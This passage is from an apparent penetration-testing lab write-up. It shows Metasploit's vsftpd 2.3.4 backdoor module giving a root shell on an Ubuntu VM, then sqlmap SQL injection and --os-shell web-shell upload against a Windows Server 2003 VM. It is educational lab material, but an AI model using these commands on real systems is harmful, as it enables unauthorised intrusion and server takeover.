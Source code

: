 ```

This will turn up a list of the exploits with that specific keyword. 


We can use this exploit by running the following:
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

This changes the prompt to that of the exploit. Now all that needs to be done is to run the following:
```
set RHOST <ip address of Ubuntu server>
```

Finally, just run *exploit*, and vsftpd exploit would be executed to provide an interactive reverse shell with root privileges:


Using this reverse shell, you have full freedom to run whatever commands are supported on the OS. This is a good place to play around with auxiliary and post-exploitation modules on Metasploit.


## Exploiting a vulnerable Windows VM
Nessus scan for Windows throws up a number of issues thanks to the end-of-life OS being used, as well as the outdated server.

There are a number of issues dealing with outdated OpenSSL and PHP installations, as well as a couple of findings pointing out that Windows Server 2003 is an unsupported OS

## Exploitation on Windows
The vulnerable web application has an SQL injection vulnerability. *SQL injection allows an attacker to inject arbitrary SQL queries and execute them on the backend DBMS.*

This vulnerability is present on the following URL:
`
http://<ip>/books1.php?title=&author=t
`

An **SQL injection** on a web application that is potentially running with admin privileges means that there is a possibility of a complete takeover of the web application. 

For this purpose, we use sqlmap. To attack the URL with **sqlmap**, the syntax is as follows:
`
sqlmap --url="http://<IP>/books1.php?title=&author=t"
`

A **sqlmap** confirms that the injection vulnerability is present


Next, use sqlmap to gain shell access on the remote server.


Then it follows it up by uploading a web shell that executes commands and returns the output of the command, all with a single command. In order to trigger this, execute the following:
`
sqlmap --url="http://<IP>/books1.php?title=&author=t" --os-shell --tmp-path=C:\\xampp\\htdocs
`

The --os-shell asks sqlmap to spawn a shell using the method described previously and the --tmp-path value specifies where to upload the PHP files for the purpose of spawning a shell. 

Once the command is executed, user input would be prompted twice.
1. First instance is to select the technology, which is PHP in this case
```